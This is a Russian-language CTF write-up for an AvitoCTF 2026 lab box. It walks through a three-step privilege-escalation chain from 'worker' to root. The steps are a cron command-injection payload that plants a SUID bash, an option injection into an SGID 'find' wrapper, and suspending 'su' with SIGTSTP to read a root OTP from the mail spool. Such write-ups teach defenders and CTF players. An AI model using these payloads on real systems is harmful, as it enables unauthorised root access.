

# Под прикрытием АвитоЦТФ 2026
С поддержкой родных и близких, чата джибити

# Медоед в улье — от `worker` до `root`

Райтап по CTF-таске: `undercover-zhvo8wkj.avitoctf.ru`. Старт — минимальный доступ (`worker`), цель — `/root/flag.txt`. Три независимые уязвимости подряд складываются в одну сквозную цепочку эскалации.



---

## 0. Разведка

Подключение:
```bash
ssh worker@undercover-zhvo8wkj.avitoctf.ru
```

На сервере два непривилегированных пользователя — `worker` (uid 1000) и `backupuser` (uid 1001). Первым делом смотрим, чем занят cron:

```bash
cat /etc/cron.d/backup
```
```
* * * * * backupuser /usr/local/bin/process_backup.sh /backup/listing
```

Скрипт запускается **каждую минуту от имени `backupuser`**. Проверяем права на файл, который он читает:

```bash
ls -la /backup/listing
```

`worker` может его редактировать — уже неплохая зацепка.

---

## 1. `worker` → `backupuser`: командная инъекция в cron-скрипт

```bash
cat /usr/local/bin/process_backup.sh
```
```bash
#!/bin/bash
INPUT=$(cat "$1" 2>/dev/null)
/bin/sh -c "rsync --archive --verbose $INPUT /backup/"
```

Содержимое `/backup/listing` подставляется в `sh -c` **без экранирования** — классическая командная инъекция. Подкладываем пейлоад и ждём тик крона:

```bash
echo '. ; cp /bin/bash /tmp/rootbash ; chmod 4755 /tmp/rootbash ; #' > /backup/listing
sleep 65
ls -la /tmp/rootbash
```
```
-rwsr-xr-x 1 backupuser backupuser 1265648 ... /tmp/rootbash
```

Забираем SUID-шелл:
```bash
/tmp/rootbash -p
id
```
```
uid=1000(worker) gid=1000(worker) euid=1001(backupuser)
```

> Флаг `-p` обязателен: обычный `bash` сбрасывает привилегии при несовпадении `uid`/`euid`, `-p` этого не делает.

**Результат: выполнение кода от `backupuser`.**

---

## 2. `backupuser` → группа `mail`: инъекция опций в `find`

Root по-прежнему недоступен (`sudo -l` пуст). Ищем файлы, доступные на запись:

```bash
find / -writable -type f 2>/dev/null | grep -v -E '^/proc|^/tmp'
```

Находим открытую (0777) директорию с SGID-бинарником:
```
-rwxr-sr-- 1 backupuser mail 16520 ... /backup/deactivated/utils/delete_old_mail
```

Извлекаем строки бинарника (`strings` недоступен — обходим через `perl`):
```bash
perl -ne 'print "$1\n" while /([\x20-\x7e]{4,})/g' /backup/deactivated/utils/delete_old_mail
```

Находим шаблон команды внутри:
```
find /var/mail/ -type f -mtime +%s -print -delete
```

Аргумент подставляется в `%s` и уходит в `system()`. Фильтр `has_forbidden_chars` блокирует shell-метасимволы (`;'"`\$()|&<>`), но **не блокирует пробелы и родной синтаксис `find`** — можно не ломать shell, а просто дописать `find` свои опции:

```bash
/backup/deactivated/utils/delete_old_mail "-1 -exec sh -c id {} +"
id
```
```
uid=1000(worker) gid=8(mail) groups=8(mail),1000(worker)
```

- `-mtime +-1` совпадает вообще со всеми файлами в `/var/mail/` (любое число дней больше −1).
- `-exec sh -c id {} +` — штатный синтаксис самого `find`, а не shell-инъекция: команда `sh -c id` выполняется, найденные файлы становятся её позиционными аргументами и просто игнорируются.

**Результат: выполнение кода с группой `mail`.**

---

## 3. Группа `mail` → `root`: перехват OTP-кода

Прямые пути закрыты:
- `sudo -l` — пусто.
- SUID на `/usr/sbin/exim4` — привилегии дропаются, `mail` не входит в `trusted_groups`.
- Symlink-атака на `/var/mail/backupuser` — exim отказывается писать в симлинк.

Смотрим PAM-конфиг `su`:
```bash
cat /etc/pam.d/su
```
```
auth requisite pam_python.so /usr/local/bin/pam_otp_root.py
```

Кастомный модуль (world-readable, читаем как есть): генерирует 9-значный OTP, **отправляет его письмом на root** и ждёт ввод с терминала (код живёт 300 секунд). Письмо падает в `/var/mail/root` с правами `root:mail` — а группа `mail` у нас уже есть.

**Первая проблема:** фоновые попытки (fifo-редирект в `su`, `script -qc` в бэкграунде) не сработали — PAM ждёт conversation именно с управляющим терминалом, а не с подменённым stdin. `Ctrl+C` тоже не вариант — он убивает процесс вместе с сессией ожидания кода.

**Рабочее решение** — не убивать `su`, а поставить его на паузу сигналом `SIGTSTP`, освободить терминал, прочитать письмо и вернуть процесс на передний план ровно туда, где он остановился:

```bash
su - root &
SUPID=$!
sleep 2
kill -TSTP $SUPID      # пауза, а не убийство процесса
cat /var/mail/root      # читаем самое свежее письмо, забираем код
fg                       # su возвращается на тот же промпт
```
```
Введите OTP-код (прислан на почту root): <код из письма>
```

Вводим код, `Enter` — аутентификация проходит.

**Результат: root.**

---

## 4. Флаг

```bash
cat /root/flag.txt
```

---

## Итог

| # | Уязвимость | Эффект |
|---|---|---|
| 1 | Command injection в cron-скрипте (неэкранированная подстановка в `sh -c`) | `worker` → `backupuser` |
| 2 | Argument injection в `find` (фильтр блокировал спецсимволы, но не синтаксис `find`) | `backupuser` → группа `mail` |
| 3 | Логическая дыра в самодельной 2FA: OTP уходит в mail spool, читаемый уже полученной группой; `su` можно приостановить `SIGTSTP`, не теряя conversation с PAM | группа `mail` → `root` |
